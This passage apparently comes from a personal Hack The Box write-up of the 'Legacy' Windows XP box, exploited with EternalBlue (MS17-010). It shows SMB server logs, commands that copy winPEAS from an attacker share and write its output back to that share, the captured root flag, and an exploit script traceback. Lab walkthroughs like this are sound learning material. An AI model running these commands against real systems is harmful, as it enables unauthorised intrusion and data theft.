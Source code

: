 ```bash
[*] Remaining connections []
[*] Incoming connection (10.10.10.4,1041)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[-] Unknown level for query path info! 0x109
```

Over on my reverse shell setup by my `bluexp` eternalblue docker container, I can do this to copy `winpeasany.exe` to the Windows machine: 

* `copy \\$ip\$dir\winpeasany.exe c:\winpeasany.exe`

Run winpeas but stdout to file back on your smbshare:

* `c:.\winpeasany.exe > \\$ip\$dir\winpeas.log`

I tried a few other things to get winpeas working, before I realized...

I didn't even need to privesc cos I could get to the Administrator files already:

```bash
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\Documents and Settings\Administrator\Desktop

16/03/2017  09:18     <DIR>          .
16/03/2017  09:18     <DIR>          ..
16/03/2017  09:18                 32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)   6.398.578.688 bytes free

type root.txt
type root.txt
993442d258b0e0ec917cae9e695d5713
C:\Documents and Settings\Administrator\Desktop>
```

Important lesson here to always check assumptions- I assumed I wouldn't have admin/root yet, but never confirmed that was the case.

Success and my very first HTB box completed.

## Troubleshooting, Errors, Notes

### python2 impacket issues

the dilemma:

```sh
└─$ python3 zzz_exploit.py 10.10.10.4                                                                               
Target OS: Windows 5.1                                                                                              
Using named pipe: browser                                                                                           
Groom packets
Traceback (most recent call last):
  File "/home/kali/Documents/RxHack/HTB/BOXES/LEGACY/exploit/MS17-010/zzz_exploit.py", line 1064, in <module>
    exploit(target, port, pipe_name)
  File "/home/kali/Documents/RxHack/HTB/BOXES/LEGACY/exploit/MS17-010/zzz_exploit.py", line 835, in exploit
    if not info['method'](conn, pipe_name, info):
  File "/home/kali/Documents/RxHack/HTB/BOXES/LEGACY/exploit/MS17-010/zzz_exploit.py", line 612, in exploit_fish_bar
rel
```